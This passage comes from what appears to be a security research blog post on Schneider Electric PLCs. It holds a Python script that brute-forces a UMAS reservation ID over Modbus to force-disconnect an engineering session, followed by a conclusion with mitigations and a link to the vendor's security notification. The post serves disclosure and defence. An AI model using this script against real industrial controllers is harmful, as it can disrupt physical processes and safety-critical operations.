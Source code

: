 ```python
    parser = argparse.ArgumentParser(description="Brute force reservation ID of existing UMAS connection and disconnect it")
    parser.add_argument('-i', '--ip_address', type=str, help="ip address of modbus server")
    parser.add_argument('-d', '--debug', default=False, action="store_true", help="Enables debug tracing")
    args = parser.parse_args()

    host = args.ip_address
    port = 502

    if host is None:
        exit(-1)

    print("Connection on %s:%d" % (host, port))

    socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    socket.connect((host, port))

    i = 0
    while i < 0x100:
        resa_id = i
        if args.debug:
            if i % 0x10 == 0:
                print("resa_id: "+hex(i))
        resp = send_recv_modbus(socket, "5a "+int8_to_hex(resa_id)+" 11", args.debug)
        if is_umas_resp_ok(resp):
            print("Disconnect success! resa_id: 0x%02X" % resa_id)
            break
        i += 1

    print("Close")
    socket.close()
```


# Conclusion

In our previous article [“Stuxnet Type attack”](https://github.com/airbus-cyber/blogpost/tree/main/applying-a-stuxnet-type-attack-to-a-modicon-plc), we demonstrated that the Schneider Electric PLC simulator executes the automation program in unconstrained x86 native code. This allows an attacker to have a Remote Code Execution on a machine where PLC Simulator is running.

To protect against motivated attackers, we must apply best security practices like:

* Disconnect the engineering station from the network;
* Ensure integrity and confidentiality of automation data by using hash and cipher mechanism.

As previously mentioned the tasks performed in this document were carried out with version EcoStruxure ControlExpert V14.1 -191122A. And they can be backported to previous releases and UnityPro products.

**Please find the Security Notification by Schneider Electric [here](https://www.se.com/ww/en/download/document/SEVD-2020-315-07/).**
